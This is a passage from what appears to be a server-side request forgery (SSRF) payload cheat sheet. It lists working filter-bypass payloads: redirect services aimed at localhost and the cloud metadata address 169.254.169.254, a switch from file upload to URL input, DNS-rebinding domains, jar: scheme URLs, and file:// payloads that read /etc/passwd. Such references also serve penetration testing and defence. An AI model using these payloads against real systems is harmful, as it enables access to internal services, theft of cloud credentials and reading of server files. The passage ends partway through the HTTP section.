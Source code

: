 To perform redirects without hosting own redirect server or perform seemless redirect target fuzzing, use https://github.com/Horlad/r3dir which hosted on r3dir.me

```powershell
#Redirects to http://localhost with `307 Temporary Redirect` status code
https://307.r3dir.me/--to/?url=http://localhost

#Redirects to http://169.254.169.254/latest/meta-data/ with `302 Found` status code
https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
```

### Bypassing using type=url

```powershell
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### Bypassing using DNS Rebinding (TOCTOU)

```powershell
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

### Bypassing using jar protocol (java only)

Blind SSRF

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## SSRF exploitation via URL Scheme

### File 

Allows an attacker to fetch the content of a file on the server

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.
